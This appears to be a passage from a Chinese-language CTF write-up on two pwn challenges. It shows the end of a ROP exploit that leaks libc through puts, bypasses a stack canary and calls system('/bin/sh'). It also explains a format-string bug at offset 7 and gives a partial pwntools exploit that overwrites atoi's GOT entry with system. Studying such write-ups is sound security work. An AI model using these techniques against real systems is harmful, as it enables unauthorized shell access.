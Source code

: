 ```

p.send(b64encode(pay1))

puts_addr = p.recv()[268:268+4]

system_addr = libc.symbols['system'] - libc.symbols['puts'] + u32(puts_addr)

sh_addr = next(libc.search('/bin/sh'))- libc.symbols['puts'] + u32(puts_addr)



pay2 = 'a'*257+canary+'a'*12+flat(system_addr,p32(1),sh_addr)

p.send(b64encode(pay2))

p.interactive()
```

运行：

{%asset_img 0.png%}



## PWN 200

分析源码，一个格式化字符串漏洞

{%asset_img 8.png%}

那么直接调试找偏移

{%asset_img 7.png%}

可以发现，偏移是7，那么我们把puts_got地址上的值printf出来，就能够得出puts函数地址，然后就能得到system函数地址，再然后我们需要调用system函数，这里可以把atoi函数got上的值改为system函数地址，然后传入"bin/sh"，当调用atoi函数时，就能getshell了

exp:

```
from pwn import*

bin = ELF('pwne')
libc = ELF('libc.so.6')

p = process('./pwne')

p.recvuntil('[Y/N]\n')

p.sendline('Y')

p.recvuntil('GET YOUR NAME:\n\n')

p.sendline(p32(bin.got['puts'])+'%7$s')

p.recvuntil('WELCOME \n')

puts_addr = p.recv()[4:8]

system_addr = libc.symbols['system']-libc.symbols['puts'] + u32(puts_addr)

atoi_got = bin.got['atoi']

p.sendline('21')

p.recvuntil('[Y/N]\n')

```